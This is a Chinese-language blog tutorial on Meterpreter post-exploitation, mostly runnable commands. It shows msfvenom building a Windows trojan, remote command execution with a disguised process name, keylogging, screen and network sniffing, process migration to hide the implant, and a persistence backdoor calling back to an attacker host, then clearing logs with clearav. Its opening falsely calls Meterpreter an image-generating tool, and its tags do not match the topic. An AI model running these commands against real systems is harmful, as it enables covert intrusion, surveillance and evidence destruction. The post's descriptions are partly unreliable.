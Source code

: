 ```yaml
---
layout:     post
title:      Meterpreter-基础命令
subtitle:
date:       2020-5-9
author:     BY Diego
header-img: img/wenzhang/post-bg-Meterpreter.jpg
catalog: true
tags:
    - 数据库
    - SQL注入
    - SQL
---
```


# 一、基础

Meterpreter是个用来产生各种图像的命令。适用于广大图形爱好者。

![YejJ4s.png](https://s1.ax1x.com/2020/05/07/YejJ4s.png)


help 命令查看帮助
![YmeEyF.png](https://s1.ax1x.com/2020/05/07/YmeEyF.png)

核心命令如下

命令 | 含义
-|-
banner |  显示一个metasploit横幅
cd |  更改当前的工作目录
color |  切换颜色
connect |  连接与主机通信
exit  | 退出控制台
get  | 获取特定于上下文的变量的值
getg |  获取全局变量的值
grep | grep另一个命令的输出
help  | 帮助菜单
history |   显示命令历史
irb  | 进入irb脚本模式
load  | 加载一个框架插件
quit  | 退出控制台
route  | 通过会话路由流量
save |  保存活动的数据存储
sessions  |  转储会话列表并显示有关会话的信息
set |  将特定于上下文的变量设置为一个值
setg |  将全局变量设置为一个值
sleep |  在指定的秒数内不做任何事情
spool  | 将控制台输出写入文件以及屏幕
threads |  线程查看和操作后台线程
unload |  卸载框架插件
unset |  取消设置一个或多个特定于上下文的变量
unsetg |  取消设置一个或多个全局变量
version |  显示框架和控制台库版本号

在控制台内是可以直接执行命令的
[![YmmoCt.png](https://s1.ax1x.com/2020/05/07/YmmoCt.png)](https://imgchr.com/i/YmmoCt)

## Meterpreter中常用的反弹类型
**1.reverse_tcp**
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

**2.reverse_http**
基于http方式的反向连接，在网速慢的情况下不稳定。

**3.reverse_https**
基于https方式的反向连接，在网速慢的情况下不稳定， https如果反弹没有收到数据，可以将监听端口换成443试试

**4.bind_tcp**
这是一个基于TCP的正向连接shell，因为在内网跨网段时无法连接到attack的机器，所以在内网中经常会使用，不需要设置LHOST。
# 二、常见用法

## (1) windows

### ① msfvenom 生成木马
**查找payload**
```bash
msfvenom -l  payload | grep window
```
**生成木马**(正向连接型)
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp  lport=60005 -f exe -o test.exe
```
**配置Meterpreter**
```bash
use multi/handler
```
![YmtcFK.png](https://s1.ax1x.com/2020/05/07/YmtcFK.png)
![YmtgJO.png](https://s1.ax1x.com/2020/05/07/YmtgJO.png)

**会话管理**
background #把meterpreter后台挂起
bglist #提供所有正在运行的后台脚本的列表
sessions #
session -i number # 与第number个交互
session -k number # kill 第number
![YnTpPP.png](https://s1.ax1x.com/2020/05/08/YnTpPP.png)

**文件上传**
[![YmaNJf.png](https://s1.ax1x.com/2020/05/07/YmaNJf.png)](https://imgchr.com/i/YmaNJf)
[![YmaUW8.png](https://s1.ax1x.com/2020/05/07/YmaUW8.png)](https://imgchr.com/i/YmaUW8)

**执行命令**
"execute"命令为目标主机上执行一个命令，其中"execute -h"显示帮助信息。-f为执行要运行的命令, -H后台执行 -i交互 -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
 "-o wce.txt"是wce.exe的运行参数
![YmdGX4.png](https://s1.ax1x.com/2020/05/07/YmdGX4.png)

**文件查找**
![Ymd8cF.png](https://s1.ax1x.com/2020/05/07/Ymd8cF.png)

**修改文件** edit filename
**查看文件** cat filename
**目录** cd / dir

**端口转发**
当服务在内网，无法直接访问可以端口转发到本机
这里将目标的 80 转发到了 8888
```shell
portfwd add  -l 8888 -p 80 -r 192.168.1.107
```
![Yn5sZn.png](https://s1.ax1x.com/2020/05/08/Yn5sZn.png)
![Yn5yaq.png](https://s1.ax1x.com/2020/05/08/Yn5yaq.png)

**键盘监控**
keyscan_start # 开始捕获
keyscan_dump  # 打印
keyscan_stop  # 停止
![Ynb98x.png](https://s1.ax1x.com/2020/05/08/Ynb98x.png)

**进程迁移**
防止木马挂掉，可以将进程迁移到其他合法进程上如explorer.exe是Windows程序管理器或者文件资源管理器
1. ps |grep explorer.exe 通过ps找到进程PID
2. migrate  **
![YuDjoQ.png](https://s1.ax1x.com/2020/05/08/YuDjoQ.png)


**屏幕捕获**
use espia
screengrab 捕获
![Yu85PU.png](https://s1.ax1x.com/2020/05/08/Yu85PU.png)

**屏幕监控**
```shell
enumdesktops  #查看可用的桌面
getdesktop    #获取当前meterpreter 关联的桌面
setdesktop   #设置meterpreter关联的桌面  -h查看帮助
screenshot  #截屏
use espia  #或者使用espia模块截屏  然后输入screengrab
run vnc  #使用vnc远程桌面连接
```
![YQZWHU.png](https://s1.ax1x.com/2020/05/09/YQZWHU.png)

**流量监控**
```shell
use sniffer
sniffer_interfaces   #查看网卡
sniffer_start 2   #选择网卡 开始抓包
sniffer_stats 2   #查看状态
sniffer_dump 2 /tmp/lltest.pcap  #导出pcap数据包
sniffer_stop 2   #停止抓包
```
![YQEgGn.png](https://s1.ax1x.com/2020/05/09/YQEgGn.png)

**持久后门**
```bash
run persistence -X -i 5 -p 7777 -r 192.168.1.100
# -i 5 每五秒发送包 -p kali 接收端口 -r kail主机
reboot
exit

set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 7777
exploit
```
![YKW2DA.png](https://s1.ax1x.com/2020/05/08/YKW2DA.png)

**日志清除**
clearav


**待更新**
# 参考

[Metasploit 使用MSFconsole接口](https://www.fujieace.com/metasploit/msfconsole.html)

[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536#toc-9)

[]()

[]()
